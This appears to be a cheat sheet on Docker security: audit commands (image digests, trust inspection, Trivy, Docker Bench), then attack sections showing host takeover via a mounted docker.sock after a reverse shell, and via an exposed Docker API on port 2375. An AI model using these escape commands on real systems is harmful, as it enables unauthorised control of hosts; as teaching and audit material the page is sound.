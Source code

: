 ### Docker security basics

```text
# Get image checksum
docker images --digests ubuntu
# Check content trust to get signatures
docker trust inspect mediawiki --pretty
# Check vulns in container
- Look vulns in base image
- Use https://vulners.com/audit to check for docker packages
- Inside any container
cat /etc/issue
dpkg-query -W -f='${Package} ${Version} ${Architecture}\n'
- Using Trivy https://github.com/aquasecurity/trivy
trivy image knqyf263/vuln-image:1.2.3
# Check metadata, secrets, env variables
docker inspect <image name>
docker inspect <container name>
# Review image history
docker history image:latest
# Inspect everything
docker volume inspect wordpress_db_data
docker network inspect wordpress_default
# Interesting look in the volume mountpoints
docker volume inspect whatever
cd /var/lib/docker/volumes/whatever
# Integrity check for changed files
docker diff imagename
# Check if you're under a container
https://github.com/genuinetools/amicontained#usage
# Docker Bench Security (Security Auditor)
cd /opt/docker-bench-security
sudo bash docker-bench-security.sh
```

### Attack insecure volume mounts

```text
# After get reverse shell in docker container (eg insecure webapp with RCE)
# This commands are executed inside insecure docker container
# Check if it's available docker.sock
ls -l /var/run/docker.sock
# This allows to access the host docker service using host option with docker client by using the UNIX socket
# Now download docker client in container and run commands in host
./docker -H unix:///var/run/docker.sock ps
./docker -H unix:///var/run/docker.sock images
```

### Attack docker misconfiguration

```text
# Docker container with exposed ports running docker service
# Docker API is exposed in those docker ports
# Check query docker API with curl
curl 10.11.1.111:2375/images/json | jq .
# Then you can run commands in host machine
docker -H tcp://10.11.1.111:2375 ps
docker -H tcp://10.11.1.111:2375 images
```
